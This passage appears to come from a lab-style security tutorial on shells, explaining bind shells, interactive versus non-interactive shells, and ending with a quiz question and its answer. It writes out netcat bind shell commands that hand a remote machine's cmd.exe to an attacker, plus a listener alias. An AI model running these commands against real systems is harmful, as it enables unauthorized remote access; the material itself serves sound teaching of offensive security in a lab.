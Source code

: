 On the target:

`nc -lvnp <port> -e "cmd.exe"`

On the attacking machine:

`nc MACHINE_IP <port>`

![](https://i.imgur.com/6GUwZsw.png align="left")

As you can see, this once again gives us code execution on the remote machine. Note that this is not specific to Windows.

The important thing to understand here is that we are *listening* on the target, then connecting to it with our own machine.  

---

The final concept which is relevant in this task is that of interactivity. Shells can be either *interactive* or *non-interactive*.

* *Interactive:* If you've used Powershell, Bash, Zsh, sh, or any other standard CLI environment then you will be used to  
    interactive shells. These allow you to interact with programs after executing them. For example, take the SSH login prompt:  
    
    ![](https://i.imgur.com/0ayLj8L.png align="left")
    
      
    Here you can see that it's asking *interactively* that the user type either yes or no in order to continue the connection. This is an interactive program, which requires an interactive shell in order to run.  
      
    
* *Non-Interactive* shells don't give you that luxury. In a non-interactive shell you are limited to using programs which do not require user interaction in order to run properly. Unfortunately, the majority of simple reverse and bind shells are non-interactive, which can make further exploitation trickier. Let's see what happens when we try to run SSH in a non-interactive shell:  
    
    ![](https://i.imgur.com/rXyEDKU.png align="left")
    
      
    Notice that the `whoami` command (which is non-interactive) executes perfectly, but the `ssh` command (which *is* interactive) gives us no output at all. As an interesting side note, the output of an interactive command *does* go somewhere, however, figuring out **where** is an exercise for you to attempt on your own. Suffice to say that interactive programs do not work in non-interactive shells.
    

Additionally, in various places throughout this task you will see a command in the screenshots called `listener`. This command is an alias unique to the attacking machine used for demonstrations, and is a shorthand way of typing `sudo rlwrap nc -lvnp 443`, which will be covered in upcoming tasks. It will *not* work on any other machine unless the alias has been configured locally.

### Answer the questions below

1. Which type of shell connects *back* to a listening port on your computer, Reverse (R) or Bind (B)? `R`
    